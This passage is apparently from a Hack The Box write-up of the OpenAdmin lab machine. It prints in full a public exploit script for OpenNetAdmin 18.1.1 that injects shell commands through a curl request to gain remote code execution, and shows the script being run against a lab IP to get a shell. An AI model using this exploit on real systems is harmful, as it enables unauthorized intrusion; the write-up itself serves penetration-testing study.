 We find a remote code execution vulnerability for our version. Let's have a look at it:

```text
┌──(root💀kali)-[~/htb/openadmin]
└─# searchsploit -m php/webapps/47691.sh
  Exploit: OpenNetAdmin 18.1.1 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47691
     Path: /usr/share/exploitdb/exploits/php/webapps/47691.sh
File Type: ASCII text, with CRLF line terminators

Copied to: /root/htb/openadmin/47691.sh

┌──(root💀kali)-[~/htb/openadmin]
└─# more 47691.sh   
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

Ok, nice and simple. We just execute the exploit and point it at our vulnerable url:

```text
┌──(root💀kali)-[~/htb/openadmin]
└─# ./47691.sh http://10.10.10.171/ona/
47691.sh: line 8: $'\r': command not found
47691.sh: line 16: $'\r': command not found
47691.sh: line 18: $'\r': command not found
47691.sh: line 23: syntax error near unexpected token `done'
47691.sh: line 23: `done'
```

## Initial Shell

We get errors, but if you've used searchsploit a lot you'll know that sometimes what you download doesn't work straight away. First try is to copy the text to a new file in case it's return characters causing a problem:

```text
┌──(root💀kali)-[~/htb/openadmin]
└─# ./47691-pencer.sh http://10.10.10.171/ona/
$ 
```

